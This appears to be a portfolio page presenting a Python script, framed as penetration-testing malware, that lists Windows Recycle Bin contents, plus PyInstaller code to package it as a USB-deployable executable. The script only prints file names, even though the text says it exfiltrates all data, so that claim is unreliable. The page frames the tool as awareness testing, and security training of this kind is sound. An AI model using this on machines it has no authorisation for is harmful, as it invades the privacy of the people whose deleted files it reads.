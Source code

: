 ```yaml
---
layout: default
---
```


## Digital Dumpster Diving Executable Malware | Python, Penetration testing

This Python script for offensive security conducts 'digital dumpster diving' by exfiltrating all data from a Windows Recycle Bin, even if Python isn't installed on the compromised device.

The idea behind this type of malware is that important information—like PII or intellectual property—may not always be properly deleted, as users often neglect to empty their Recycle Bin. This creates an opportunity for attackers, especially if a careless employee has unwittingly left sensitive information behind. While initial access is required, possibly through social engineering or plugging a USB into the device, and the code could be further optimized, that isn't the primary objective here. Instead, the script highlights a fundamental vulnerability and tests whether employees routinely clean out their Recycle Bin.

This script could serve as a helpful tool in social engineering awareness campaigns, encouraging better information disposal practices among a company's employees. After all, we know the saying:

"One man's trash is another man's treasure."

### Dumpster Dive code:

```python
import winshell
import os

def dumpster_diving():
    dumpster = winshell.recycle_bin()
    for item in dumpster:
        og_path=item.original_filename()
        trash_item=os.path.basename(og_path)
        print(trash_item)

if __name__ == "__main__":
    dumpster_diving()
```

### Code to make the Executable

This is the code used to create the executable using PytInstaller. The extra lines of code are meant to create the executable in a usb drive, but they can be commented without issue:

```python
import PyInstaller.__main__ 
import os
import shutil

filename = "dumpsterdive.py"
exename = "dumpsterdive"
pwd = os.getcwd()
usbdir = os.path.join(pwd,"USB")

dist_path = os.path.join(pwd, "dist")
build_path = os.path.join(pwd, "build")
spec_path = os.path.join(pwd, exename + ".spec")

if os.path.isfile(exename):
    os.remove(exename)

# Create executable from Python script
PyInstaller.__main__.run([
    "dumpsterdive.py",
    "--onefile",
    "--clean",
    "--log-level=ERROR",
    "--name="+exename,
])

# Clean up after Pyinstaller
shutil.move(os.path.join(dist_path,exename+'.exe'),pwd)
shutil.rmtree("dist")
shutil.rmtree("build")
shutil.rmtree("__pycache__")
if os.path.isfile(spec_path):
    os.remove(spec_path)
```

[back](./)
